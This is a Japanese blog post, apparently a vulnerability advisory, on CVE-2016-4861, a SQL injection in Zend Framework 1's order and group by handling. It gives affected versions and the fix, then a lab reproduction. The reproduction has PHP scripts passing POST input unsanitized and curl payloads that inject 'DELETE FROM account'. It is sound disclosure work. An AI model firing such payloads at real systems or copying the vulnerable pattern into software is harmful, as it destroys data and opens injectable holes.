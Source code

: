 ```yaml
---
layout: post
title:  "CVE-2016-4861 - Zend Framework における SQL インジェクションの脆弱性"
date:   2016-09-16 11:00:00 +0900
categories: vulnerability
toc: true
---
```


# 概要

HASHコンサルティング株式会社 徳丸 浩 さんにより、ZendFramework 1に[Zend_Db_Select](https://framework.zend.com/manual/1.12/ja/zend.db.select.html)のOrder by句およびGroup By句の引数の処理に起因するSQLインジェクションの脆弱性が発見されました。

# CVSS v3

2016年09月16日時点でNVDは非公開

# 解決策、緩和策情報

 * Zend Framework 1.12.20へのアップグレード、もしくはパッチを適用してください。

# 影響を受けるソフトウェアとバージョン

 * Zend Framework 1.12.20以前のversion

Zned Framework 2系, 3系はこの脆弱性の影響を受けません。

# 技術的な詳細

## Zend Framework 1.12.19の環境構築

 * Zend Framework 1.12.19のダウンロード

```
kosuke@scapegoat ~ $ wget https://packages.zendframework.com/releases/ZendFramework-1.12.19/ZendFramework-1.12.19.tar.gz
kosuke@scapegoat ~ $ tar zxvf ZendFramework-1.12.19.tar.gz
```

 * php.iniを編集する

```
root@scapegoat:~# vim /etc/php5/apache2/php.ini
include_path = ".:/home/kosuke/ZendFramework-1.12.19/library"
```

 * テスト用スクリプト

```
root@scapegoat:~# cat /var/www/html/zend.php
<?php
require_once 'Zend/Version.php';
echo 'Hello, Zend Framework! Ver ' . Zend_Version::VERSION;
```

 * Apacheを再起動

```
root@scapegoat:~# service apache2 restart
```

 * Zendが稼働することを確認

```
root@scapegoat:~# curl http://scapegoat.test/zend.php
Hello, Zend Framework! Ver 1.12.19
```

## テスト用のMySQLの環境を構築

 * MySQLユーザとデータベースの作成

```
kosuke@scapegoat ~ $ mysql -uroot -pmust_rewrite
mysql> create database CVE_2016_4861;
mysql> GRANT ALL ON CVE_2016_4861.* TO 'zend'@'%' IDENTIFIED BY 'pass';
```

 * MySQLのテーブルを作成

```
kosuke@scapegoat ~ $ mysql -uzend -ppass
mysql> use CVE_2016_4861;
Database changed
mysql> create table account (id int, name varchar(100), password varchar(100));
Query OK, 0 rows affected (0.01 sec)

mysql> desc account;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(11)      | YES  |     | NULL    |       |
| name     | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

mysql> insert into account (id, name, password) values(1, 'hoge', 'h0ge');
Query OK, 1 row affected (0.03 sec)

mysql> insert into account (id, name, password) values(2, 'foo', 'f00');
Query OK, 1 row affected (0.00 sec)

mysql> insert into account (id, name, password) values(3, 'bar', 'b@r');
Query OK, 1 row affected (0.00 sec)
```

## order byの検証

 * order.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$order = $_POST['order'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->order($order);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "order=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/order.php
```

![order]({{site.baseurl}}/images/2016/09/16/order.gif)

## group byの検証

 * group.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$group = $_POST['group'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->group($group);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "group=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/group.php
```

![group]({{site.baseurl}}/images/2016/09/16/group.gif)


# 追跡が必要な情報元

 * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-4861&searchview=)
 * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-4861)
 * [Github](https://github.com/search?q="CVE-2016-4861")
 * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-4861)
 * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4861)
 * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-4861)
 * [Redhat](https://access.redhat.com/security/cve/CVE-2016-4861)
 * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-4861.html)
 * [bugtraq](https://marc.info/?s=CVE-2016-4861&l=bugtraq)
 * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-4861)
 * [fulldisc](https://marc.info/?s=CVE-2016-4861&l=full-disclosure)
 * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-4861)
 * [oss-sec](https://marc.info/?s=CVE-2016-4861&l=oss-security)

# 参考文献

 * https://framework.zend.com/security/advisory/ZF2016-03
 * http://jvndb.jvn.jp/ja/contents/2016/JVNDB-2016-000158.html
 * http://qiita.com/Kaki_Shoichi/items/d12b98d6ea56cfd1a6d4
 * https://framework.zend.com/manual/1.12/ja/zend.db.select.html


